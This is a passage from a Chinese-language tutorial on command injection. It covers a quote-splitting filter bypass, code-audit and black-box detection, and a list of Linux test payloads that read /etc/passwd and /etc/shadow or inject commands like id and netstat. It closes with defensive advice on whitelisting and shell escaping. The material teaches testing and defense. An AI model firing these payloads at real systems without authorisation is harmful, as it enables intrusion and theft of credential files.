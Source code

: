 * **单双引号**

单双引号内的内容会被当作字符串处理，跟其他字符串可拼接出我们需要的命令行字符串。

```java
c"a"t /et''c/p'a'sswd
```

### 挖掘命令注入漏洞

#### 1.代码审计

代码审计思路就是追踪污点（用户可控数据，如 Get、Post 数据等等）的传播，看是否未经限制就传递给命令执行函数（system、exec、shell_ exec 等等）。

#### 2.黑盒扫描

通过漏洞扫描器来检测漏洞，对用户输入参数去构造一些命令，然后检测返回结果，最常用的无害命令就是 sleep 函数，看延时情况来判断是否执行成功，无论执行结果有无回显，均可适用。

一些常用的 Linux 平台的命令注入测试用例如下：

```java
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
|id
|/usr/bin/id
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
......
```

Windows 平台以及其他更多的测试用例可参考 [command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)。

### 漏洞防御

#### 1.代码层面的漏洞规避

尽量不用系统命令执行函数，这是最简单粗暴的方式，但也是最有效的方式。很多方式其实是可以通过一些语言内置 API 完成，这些攻击者是无法控制 API 去执行其他预料之外的命令，除非 API 存在漏洞。

如果一定要使用命令执行函数，就尽量不要将外部可控数据作为命令行参数。

如果要将用户可控数据传递给命令执行函数，那首先推荐白名单方式，然后再是考虑转义过滤，以及数据格式校验。比如靶场题目是输入 IP 地址，那你可以使用正则做 IP 格式的检测，不符合就拒绝请求。总之，尽可能限制可输入参数的范围，比如仅允许数字或者数字字母等方式。
> 转义过滤：可以使用 escapeshellcmd 函数对整个命令字符串作转义，它会在以下字符之前插入反斜线： \&#;\`\|\*?\~\<\>\^()\[\]{}$, \\x0A 和 \\xFF，但即使如此，攻击者还是可以传入任意数量的参数，此时可以使用 escapeshellarg() 函数对单个参数进行转义。
